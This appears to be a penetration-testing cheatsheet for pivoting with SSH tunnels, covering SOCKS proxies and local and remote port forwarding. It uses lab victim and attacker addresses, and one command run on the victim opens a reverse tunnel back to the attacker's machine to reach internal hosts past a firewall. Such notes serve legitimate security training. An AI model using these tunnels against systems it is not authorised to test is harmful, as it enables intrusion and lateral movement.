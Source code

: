 ## SSH Cheatsheet / Blackmagic

SSH has a lot of exciting features when it comes to pivoting in a pentest environment; btw most of it stemmed from devops situations :P. This is assuming you having ssh access on your victim, probably with root privilleges.

192.168.56.201 -> Victim Machine
192.168.56.202 -> Attacker Machine

The -f Commands forks the process into background and -N will not execute remote commands so you don't see a bash terminal but it runs in background.Good for crappy shells with less interaction
### 1. Socks Proxy
	ssh -D 127.0.0.1:1080 victim@192.168.56.201 -f -N
Creates a socks proxy tunnel via your local machine at local port 1080

### 2. Local Port Forwarding
	ssh -L 9999:localhost:22 victim@192.168.56.201 -f -N
    
Let's assume you have popped a box (low priv) which has ssh service running but the firewall blocks it from outside and for some wierd reason port 9999 is acessible from the outside.
You could do the above mentioned to Locally forward 22 to 9999
    
### 3. Remote Port Forwarding
The most useful commnand you will ever use in your life; execute at victim machine  

	ssh -R 6666:localhost:22 attacker@192.168.56.202
This forwards localport (ssh of the victim) to your system local port 6666 through an ssh tunnel.

You could then connct using ssh victim@localhost -p 6666 

You could do something cooler too , assuming you have a machine on the victim network 210 and you want to access it's web port directly from your attacker machine you can do this -  

	ssh -R localhost:9060:192.168.56.210:80 victim@192.168.56.201

Here you setup a secure SSH tunnel on the localport (attacker) 9060 which has a direct connection to port 80 of 210 ( a machine on victim network), cool eh ?

After that you could do
	ssh -R 7777:localhost:9060 attacker@192.168.56.201 -f -N
    
 This would remtely forward port 9060 on victim machine to your localport 7777.
 So basically you could browse port 80 on machine 192.168.56.210 from your own browser by pointing to http://localhost:7777
 
_More example coming soon. Please tweet out to @0xrnair in case you need clarifications_ ----
 

References:  
1. [The Black Magic of SSH / SSH Can do that ?](https://vimeo.com/54505525)   
2. [Why aren't we using SSH for everything](https://medium.com/swlh/ssh-how-does-it-even-9e43586e4ffc#.hjbor5jlu)
